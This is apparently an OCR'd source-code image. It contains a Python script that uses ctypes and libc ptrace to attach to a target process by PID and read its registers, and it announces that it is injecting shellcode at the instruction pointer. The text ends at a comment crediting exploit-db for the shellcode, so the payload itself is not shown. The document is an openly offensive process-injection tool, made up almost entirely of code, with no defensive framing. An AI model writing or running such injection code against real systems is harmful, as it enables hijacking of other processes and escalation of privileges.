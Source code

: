 ```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
```